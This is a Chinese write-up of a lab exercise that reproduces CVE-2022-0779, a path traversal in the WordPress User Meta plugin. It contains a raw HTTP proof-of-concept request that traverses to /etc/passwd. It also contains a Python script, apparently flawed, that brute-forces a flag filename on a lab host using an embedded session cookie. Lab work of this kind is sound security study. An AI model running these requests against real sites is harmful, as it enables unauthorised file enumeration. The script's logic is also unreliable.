 ```yaml
---
title: CVE-2022-0779【路径遍历漏洞】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - '路径遍历漏洞'
---
```


## 1. 漏洞介绍

WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。

WordPress plugin User Meta Manager 2.4.3版本及之前版本存在路径遍历漏洞，该漏洞源于在处理 Ajax 操作 um_show_uploaded_file 时，对路径数据没有进行验证。

## 2. 漏洞分析

[WordPress User Meta Lite / Pro 2.4.3 Path Traversal - CXSecurity.com](https://cxsecurity.com/issue/WLB-2022050096)

[User Meta < 2.4.4 - Subscriber+ Local File Enumeration via Path Traversal](https://wpscan.com/vulnerability/9d4a3f09-b011-4d87-ab63-332e505cf1cd/)

注，该漏洞仅可验证文件是否存在并不能直接读取文件

## 3. 漏洞复现

登录test/test，

poc

```http
As a subscriber, submit a dummy image on a page/post with a File Upload field is embed, intercept the request and change the file path parameter

POST /wp-admin/admin-ajax.php HTTP/1.1
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 158
Connection: close
Cookie: [subscriber+]

field_name=test&filepath=/../../../../../../../../etc/passwd&field_id=um_field_4&form_key=Upload&action=um_show_uploaded_file&pf_nonce=4286c1c56a&is_ajax=true

If the response contains the um_remove_file, then the file exist on the server, otherwise it does not
```

注，其中pf_nonce的值需要到页面源码中找

如果返回值中有 ‘umRemoveFile’ 就代表此文件存在

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311251123809.png)

根据提示访问 1.txt

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311251124704.png)

需要对flag文件名爆破，脚本如下【注意对cookie，pf_nonce，url更换】

```python
import requests  
  
  
def getInfo(file):  
    headers = {  
        "Accept": "*/*",  
        "Accept-Language": "en-GB,en;q=0.5",  
        "Accept-Encoding": "gzip, deflate",  
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",  
        "X-Requested-With": "XMLHttpRequest",  
        "Cookie": "wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_ff4d7f4925eeb2aae706e60d2f109fb8=test%7C1701054017%7C9ZZeRuCrD5o1xN1AZlhymb2gDZwLyPu9UM7VAwT25vm%7Cbcfa0bde3f3d80328429c3c83c850b5a8565c3ddf971a087fe4717082d864779; wp-settings-time-2=1700881222",  
  
    }  
  
    url = "http://eci-2ze48igh9i0sd3e06myz.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php"  
    data = {  
        'field_name': 'test',  
        'filepath': '/../../../../../../../../flagfile/' + file,  
        'field_id': 'um_field_4',  
        'form_key': 'Upload',  
        'action': 'um_show_uploaded_file',  
        'pf_nonce': '31403479b8',  
        'is_ajax': True,  
    }  
  
    r = requests.post(url, headers=headers, data=data)  
    # print(r.text)  
    if "umRemoveFile" in r.text:  
        return True  
    else:  
        return False  
  
  
if __name__ == '__main__':  
  
    key = '1234567890abcdefghijklmnopqrstuvwxyz'  
    for i in range(0, 10):  # 随机字符串是10位  
        for w in key:  
            file = str(i) + str(w)  
            if getInfo(file):  
                print(w, end="")  
                break
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202311251126308.png)

看别人的做法是浏览器加上这个随机字符串即可得flag，但我这边却是404……
